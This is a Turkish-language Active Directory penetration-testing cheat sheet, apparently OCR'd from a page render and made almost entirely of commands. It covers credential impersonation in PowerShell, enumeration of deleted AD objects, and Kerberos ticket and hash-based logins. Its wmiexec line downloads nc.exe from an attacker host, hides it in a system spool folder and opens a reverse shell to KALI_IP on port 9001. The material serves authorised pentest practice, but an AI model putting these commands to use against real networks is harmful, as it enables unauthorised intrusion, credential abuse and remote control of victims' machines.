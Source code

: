 ### Kimlik Bilgilerini Taklit Etme

#### STA Modunda Çalışıyorken Başka Bir Kimliği Taklit Etme
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
... action
Invoke-RevertToSelf
```

### AD Recycle Bin Grubu Enumerasyonu

#### Silinmiş Nesneleri Bulma
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

#### Kullanıcı Şifrelerini Kontrol Etme
```powershell
Get-ADObject -filter { SAMAccountName -eq "UserName" } -includeDeletedObjects -property *
```

### WMIExec ile RCE

#### Komut Çalıştırma
```bash
proxychains wmiexec.py -debug -nooutput domain/username:'password'@TARGET_ip "powershell.exe Invoke-WebRequest -Uri 'http://KALI_ip/nc.exe' -OutFile 'C:\Windows\System32\spool\drivers\color\nc.exe'; cmd.exe /c C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe KALI_IP 9001"
```

### Linux'ta Kerberos Ticketing

#### TGT Oluşturma
```bash
kinit username@steins.local
```

#### Kerberos ile Giriş Yapma
```bash
KRB5CCNAME=/tmp/krb5cc_0 python wmiexec.py -k -no-pass steins.local/username@target
```

#### NTLM Devre Dışı Olduğunda Hash Kullanma
```bash
ktutil -k kerbticket_path add -p username@steins.local -e arcfour-hmac-md5 -w 49623ccc820122ab49b3f0f571b77186 --hex -V 5
kinit -t kerbticket_path username@steins.local
```

#### Kerberos Kimlik Doğrulama ile WMIExec Kullanma
```bash
KRB5CCNAME=/tmp/krb5cc_0 python wmiexec.py -k -no-pass steins.local/username@target
```
